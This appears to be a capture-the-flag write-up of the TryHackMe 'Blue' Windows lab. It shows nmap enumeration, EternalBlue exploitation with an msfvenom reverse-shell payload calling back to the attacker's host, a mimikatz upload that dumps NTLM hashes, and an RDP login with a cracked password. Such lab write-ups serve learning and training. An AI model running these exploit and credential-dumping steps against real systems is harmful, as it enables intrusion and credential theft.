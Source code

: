 ```yaml
---
layout : post
title: Blue Writeup [THM]
date: 2020-08-08 18:00:00 +/- 0000
categories: [Machine-Writeup, Tryhackme]
tags: [Eternalblue,Mimikatz,OSCP Path]
headline: Blue is a beginner-friendly Windows machine from tryhackme , where we exploit the famous eternalblue MS17-010 and dump NTLM hashes with mimikatz.
image: /assets/img/Blue/Blue.png
---
```


Blue is a beginner-friendly Windows machine from tryhackme , where we exploit the famous eternalblue MS17-010 and dump NTLM hashes with mimikatz.
## Enumeration

Running nmap :
```shell
nmap -sC -sV -o nmap.txt 10.10.86.230
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see that smb port is open, as the machine name is Blue it may hint that is vulnerable to Eternablue exploit, running nmap again to check it :
  ```shell
  nmap -p445 --script vuln 10.10.86.230
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-08 16:13 CEST
  Nmap scan report for 10.10.86.230
  Host is up (0.040s latency).

  PORT    STATE SERVICE
  445/tcp open  microsoft-ds
  |_clamav-exec: ERROR: Script execution failed (use -d to debug)

  Host script results:
  |_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
  |_smb-vuln-ms10-054: false
  |_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
  | smb-vuln-ms17-010:
  |   VULNERABLE:
  |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  |     State: VULNERABLE
  |     IDs:  CVE:CVE-2017-0143
  |     Risk factor: HIGH
  |       A critical remote code execution vulnerability exists in Microsoft SMBv1
  |        servers (ms17-010).
```
Nmap reports that the machine is vulnerable to MS17-010 therefore we will use the following set of tools to exploit it : <https://github.com/3ndG4me/AutoBlue-MS17-010>  with it we can create the shellcode, set up a listener and exploit the machine.
## Exploitation

We will generate the malicious shellcode using msfvenom:
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.14.106 LPORT=443 -f raw -o sc.bin EXITFUNC=thread
```
Now in order to obtain a shell we use the exploit contained in AutoBlue-MS17-010

```shell
python eternalblue_exploit7 10.10.86.230 sc.bin
```

After running the exploit a few times we finally get a shell as nt authority\system

```shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.14.106] from (UNKNOWN) [10.10.86.230] 49186
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>whoami
nt authority\system
```
## Post-exploitation

Finally we will dump administrator hashes using mimikatz, this is a good post-exploitation practice for mantaining access to the machine

Uploading mimikatz through smbserver:
```shell
smbserver.py smbfolder .
```
In the victim machine :
```shell
C:\Windows\System32>copy \\10.11.14.106\smbfolder\mimikatz.exe
copy \\10.11.14.106\smbfolder\mimikatz.exe
        1 file(s) copied.
```
Dumping hashes with mimikatz

```shell
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Mar  8 2020 18:30:37
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # lsadump::sam
Domain : JON-PC
SysKey : 55bd17830e678f18a3110daf2c17d4c7
Local SID : S-1-5-21-2633577515-2458672280-487782642

SAMKey : c74ee832c5b6f4030dbbc7b51a011b1e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Jon
  Hash NTLM: ffb43f0de35be4d9917ac0cc8ad57f8d
  ```
As port 3389 is open we can crack those hashes and login through rdp protocol using rdesktop

![hash](/assets/img/Blue/hash.png)


The administrator hash is a blank hash , but we were able to obtain Jon cracked password

```shell
rdesktop 10.10.86.230 -g 80% -u Jon -p alqfna22
```
We login succesfully as Jon

![login](/assets/img/Blue/rdp.png)
